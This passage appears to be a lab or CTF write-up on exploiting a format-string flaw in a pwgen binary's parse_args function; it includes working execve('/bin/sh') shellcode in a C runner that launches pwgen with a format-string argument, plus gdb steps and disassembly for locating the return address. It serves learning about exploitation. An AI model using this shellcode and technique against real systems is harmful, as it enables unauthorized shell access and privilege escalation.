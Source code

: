 we find that the input string AAAA is stored at 2 locations, offset 2 and offset 423.

Crafting exploit:  
now that we know where the input is stored and which offset it is at, we need to create a exploit code that contains the shellcode in binary.  
We then need to use gdb to search for the location where this shellcode binary is stored.  
Following that we need to find the address of the register that stores the return address of parse_args.
We use this following runner code to aid us in doing the above:
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

unsigned char shellcode[] =
    "\x6a\x3b\x58\x48\x31\xd2\x49"
    "\xb8\x2f\x2f\x62\x69\x6e\x2f"
    "\x73\x68\x49\xc1\xe8\x08\x41"
    "\x50\x48\x89\xe7\x52\x57\x48"
    "\x89\xe6\x0f\x05\x6a\x3c\x58"
    "\x48\x31\xff\x0f\x05";

int main() {
    // memory addr the shellcode
    printf("Shellcode is at address: %p\n", shellcode);
    pid_t pid = fork();
    if (pid == 0) {
        execl("/usr/local/bin/pwgen", "/usr/local/bin/pwgen", "-eAAAA.%x.%x.%x", (char *)NULL);
        perror("execl failed");
        exit(1);
    } else if (pid > 0) {
        wait(NULL);
    } else {
        perror("fork failed");
        exit(1);
    }
    return 0;
}                       
```
when we run the runner file, we find that the shellcode is stored at memory address 0x555555558020.

then we go into gdb and set breakpoint at parse_args first.  
since pwgen is forked as a child process, gdb will set this breakpoint to a pending breakpoint.  
we also have to use `set follow-fork-mode child` so that gdb will follow into pwgen to find `parse_args` symbol and set a break there.  
when the breakpoint is reached, we can diassemble the parse_args function. The snippet below contains the portion where `sprintf` is called, which is the portion we are interested in.  
```
   0x0000555555555f91 <+684>:	lea    -0x410(%rbp),%rax
   0x0000555555555f98 <+691>:	mov    %rdx,%rsi
   0x0000555555555f9b <+694>:	mov    %rax,%rdi
   0x0000555555555f9e <+697>:	mov    $0x0,%eax
   0x0000555555555fa3 <+702>:	call   0x555555555380 <sprintf@plt>
   0x0000555555555fa8 <+707>:	lea    -0x410(%rbp),%rax
   0x0000555555555faf <+714>:	mov    %rax,%rsi
   0x0000555555555fb2 <+717>:	lea    0x1180(%rip),%rax        # 0x555555557139
   0x0000555555555fb9 <+724>:	mov    %rax,%rdi
   0x0000555555555fbc <+727>:	mov    $0x0,%eax
   0x0000555555555fc1 <+732>:	call   0x555555555290 <printf@plt>
   0x0000555555555fc6 <+737>:	jmp    0x555555556023 <parse_args+830>
```
sprintf is called at `0x0000555555555fa3`, we can set a break point at `0x0000555555555fc1` so that we allow the `sprintf` to complete, then we can investigate the stack to find the return buffer.  
